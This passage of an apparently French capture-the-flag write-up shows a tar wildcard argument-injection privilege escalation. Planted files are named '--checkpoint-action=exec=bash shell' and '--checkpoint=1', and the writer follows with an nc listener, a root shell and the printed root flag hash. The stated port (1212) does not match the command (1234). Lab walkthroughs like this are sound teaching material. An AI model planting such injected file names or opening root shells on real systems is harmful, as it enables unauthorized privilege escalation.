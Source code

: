 rw-rw-rw- 1 www-data www-data     0 Aug 25 07:33 --checkpoint-action=exec=bash shell
-rw-rw-rw- 1 www-data www-data     0 Aug 25 07:33 --checkpoint=1
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rwxrwxrwx 1 www-data www-data    54 Aug 25 07:32 shell
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
```
On retrouve les fichiers **--checkpoint-action=exec=bash shell**, **--checkpoint=1** et **shell**

Pour pouvoir obtenir un shell avec les privilèges root, il faut lancer un listener sur le port 1212 (port dans le script shell)
``` nc -lvnp 1234```

On éxécute le script shell 
``` ./shell```

Et hop, nous voila **ROOT** sur le listener !! 

Maintenant, plus qu'à récupérer le flag root.txt

Comme on doit avoir des privilèges pour ce flag, on suppose qu'il se trouve dans un fichier avec des privilèges spéciaux pour y accéder. 

```
cat root/root.txt

3f0372db24753accc7179a282cd6a949
```

Réponse 5 : **3f0372db24753accc7179a282cd6a949** 


[P0WN3D]
